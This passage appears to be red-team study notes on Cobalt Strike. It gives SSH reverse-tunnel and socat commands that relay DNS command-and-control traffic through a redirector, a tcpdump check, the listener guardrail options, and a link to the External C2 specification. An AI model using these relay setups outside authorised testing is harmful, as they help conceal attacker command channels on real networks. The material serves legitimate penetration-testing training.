 ```
###TCP Redirect from team server to redirector 2
ssh attacker@10.10.0.200 -R 5353:localhost:5353
###Socat command to listen on UDP 53 on redirector 2 and forward the traffic to TCP 5353
sudo socat udp4-listen:53,reuseaddr,fork tcp:localhost:5353
###Then on team server:
sudo socat tcp-listen:5353,reuseaddr,fork udp4-sendto:localhost:53
```

Create a DNS listener and execute a payload to confirm it is working:
![[Pasted image 20250318101223.png]]

If it doesn't appear us tcpdump to troubleshoot:

```
sudo tcpdump -i ens5 udp port 53
```

## Payload Guardrails

Guardrails in Cobalt Strike are set in the configuration for the DNS, HTTP/S, SMB, and TCP listeners.

The available options are:

- IP Address
    - Internal IP address(es)
    - Supports wildcards on the rightmost segments, e.g. _10.10.120.*_ or _10.10.*.*_
- User Name
    - Case sensitive username
    - Supports wildcards on the left or right, e.g. _svc_*_ or _*adm_
- Server Name
    - Case sensitive computer name
    - Supports wildcard on the left or right
- Domain
    - Case sensitive domain name
    - Supports wildcard on the left or right, e.g. _acme.*_ or _*.acme.corp_

## External C2

Docs [here](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/externalc2spec.pdf)